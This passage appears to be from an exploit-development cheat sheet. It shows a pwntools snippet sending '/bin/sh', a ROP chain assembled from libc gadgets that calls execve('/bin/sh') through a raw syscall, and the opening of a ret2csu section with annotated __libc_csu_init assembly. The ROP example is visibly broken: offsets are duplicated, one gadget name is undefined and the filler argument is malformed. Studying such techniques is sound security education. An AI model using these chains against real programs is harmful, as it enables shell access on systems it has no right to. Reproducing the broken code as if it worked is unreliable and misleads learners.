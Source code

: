 ```py
p.send(b"/bin/sh\x00")	# &buf
```

### Example | System

```py
# Gadgets
rop 	    = ROP(libc)
p_rdi_r     = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r     = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rax_rdi_r = libc_base + rop.find_gadget(['pop rax', 'pop rdi', 'ret'])[0]
p_rdx_rsi_r = libc_base + rop.find_gadget(['pop rdx', 'pop rsi', 'ret'])[0]
ret         = libc_base + rop.find_gadget(['ret'])[0]
syscall_r   = libc_base + rop.find_gadget(['syscall', 'ret'])[0]

system	= libc_base + libc.sym['system']
binsh	= libc_base + next(libc.search(b'/bin/sh\x00'))

pads = 0xdeadbeef	# padding to overflow

pl  = pads
pl += flat({
    0x0:  p_rax_rdi_r,		
    0x8:  59,			
    0x10: binsh,		
    0x18: p_rdx_rsi_r,			
    0x20: 0,
    0x28: p_rax_rdi_r,			
    0x30: [0, 0],			
    0x20: [p_rdx_rbx_r, 0, 0],		
    0x30: syscall_r,				
}, filler'\0')
```



## ret2csu

### Assembly

```
; void __libc_csu_init(void)
; This function is responsible for running initialization routines (e.g., constructors).

__libc_csu_init proc near               ; DATA XREF: _start+16↑o
    ; Prologue: Save callee-saved registers
    push    r15
    push    r14
    mov     r15, rdx                   ; Store argument in r15
    push    r13
    push    r12
    lea     r12, __frame_dummy_init_array_entry ; Load address of init array start
    push    rbp
    lea     rbp, __do_global_dtors_aux_fini_array_entry ; Load address of init array end
    push    rbx
    mov     r13d, edi                  ; Store argument in r13d (argc)
    mov     r14, rsi                   ; Store argument in r14 (argv)

    ; Calculate the number of functions in the init array
    sub     rbp, r12                   ; Calculate the difference (size of the init array)
    sub     rsp, 8                     ; Align the stack
    sar     rbp, 3                     ; Divide by 8 (size of function pointers)
    call    _init_proc                 ; Call the _init function

```